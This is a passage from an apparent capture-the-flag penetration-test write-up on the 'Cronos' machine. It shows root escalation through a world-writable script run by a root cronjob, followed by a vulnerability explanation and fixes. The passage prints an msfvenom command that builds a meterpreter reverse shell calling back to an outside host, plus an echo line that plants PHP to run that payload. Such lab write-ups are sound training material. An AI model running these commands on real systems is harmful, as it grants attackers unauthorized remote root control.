 
```

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.11 LPORT=4444 -f elf  > adshell.elf

```

Subsequently, the following line was used to modify the artisan script: 

```

echo '<?php exec("/var/www/admin/adshell.elf");?>' > artisan

```

After a short interval, the cronjob ran the script as root, which resulted in a reverse TCP shell being returned with root privileges: 

[![](/cronos/rootshell.png)](/cronos/rootshell.png)

### Vulnerability explanation: unsecure scheduled tasks 

Cron.d is a system for task schduling in Linux, which can run scripts or other applications at fixed intervals with various user permissions. 

With this task set to run as root, but with the executed script being writable by a user level account, this effectively gives the user level account the ability to arbitrarily run code as root. 

### Vulnerability fix 

- consider removing www-data's ability to write to /var/www/laravel/artisan 
- If this account *must* write to this file in order to fulfil its role, please consider granting limited sudo access that is password protected in order to accomplish this. 
- consider running this cronjob under a less privileged account.
- consider a real time antivirus or endpoint detection system to monitor for the use of suspicious remote access tools such as meterpreter. 


### Proof of Concept Code

N/A. This vulnerability was exploited without the use of specific exploit code. 

### Proof Files 

#### Root.txt Screenshot 
